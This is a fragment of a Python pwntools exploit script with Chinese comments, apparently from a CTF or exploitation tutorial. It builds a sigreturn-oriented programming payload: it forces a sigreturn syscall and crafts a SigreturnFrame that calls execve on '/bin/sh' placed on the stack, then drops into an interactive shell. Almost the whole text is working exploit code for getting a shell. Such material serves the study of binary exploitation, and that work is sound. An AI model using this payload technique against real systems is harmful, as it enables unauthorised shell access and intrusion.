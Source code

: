 ```python
sh.send(payload)
sh.send(payload[8:8+15])  #输入15个字节使得rax寄存器的值为15，进行sigreturn调用

execve = SigreturnFrame()
execve.rax = constants.SYS_execve
# "/bin/sh"字符串地址，这里为了能够让exp3.1正常执行，所以直接给了0x120，下面会将为什么是0x120
execve.rdi = stack_addr + 0x120  
execve.rsi = 0x0 #execve函数二参
execve.rdx = 0x0 #execve函数二参
execve.rsp = stack_addr 
execve.rip = syscall_ret

frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
print len(frame_payload)
# 将execve函数调用和/bin/sh字符串一起部署到栈中
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(payload[8:8+15])

sh.interactive()
```

